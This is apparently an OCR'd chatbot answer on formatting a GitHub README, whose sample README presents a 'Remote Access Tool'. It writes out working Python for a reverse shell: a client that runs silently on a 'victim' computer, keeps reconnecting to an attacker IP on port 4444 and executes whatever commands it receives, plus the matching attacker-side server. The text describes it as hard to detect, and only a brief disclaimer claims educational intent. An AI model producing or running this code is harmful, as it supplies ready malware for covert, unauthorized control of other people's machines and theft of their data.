 To format this properly in your **GitHub README.md file**, follow these steps:

### **1. Use Markdown for Formatting**
GitHub uses Markdown to format text in the README file. To ensure the Python code is well-structured and readable, wrap it in **triple backticks** (` ``` `) and specify the `python` language for syntax highlighting.

### **2. Example README File Format**
Here’s how you can structure your **README.md** file:

markdown
# Remote Access Tool (RAT)

## Overview
A **Remote Access Tool (RAT)** is used to control a target machine remotely.  
In simple terms:
- Allows the attacker to execute commands on the target system.
- Can download/upload files and access sensitive data.
- Runs silently in the background, making detection difficult.

## How It Works
The project consists of two programs:

### **1. Client.py (Victim's Machine)**
- This script runs silently on the victim’s computer.
- It continuously attempts to connect to the attacker’s machine.
- Once connected, it waits for and executes commands sent by the attacker.

```python
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if __name__ == "__main__":
    main()
```

### **2. Server.py (Attacker's Machine)**
- The attacker runs this script to control the victim’s machine.
- It listens for incoming connections and executes commands remotely.

```python
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 4444))  # Bind to all available interfaces on port 4444
    s.listen(1)
    print("Waiting for connection...")
    conn, addr = s.accept()
    print(f"Connected to {addr}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command.lower() == "exit":
            break
        output = conn.recv(4096).decode()
        print(output)
    conn.close()

if __name__ == "__main__":
    start_server()
```

## Disclaimer
🚨 **This project is intended for ethical cybersecurity research and educational purposes only. Unauthorized use or deployment of such tools may violate laws and regulations. Use responsibly.**


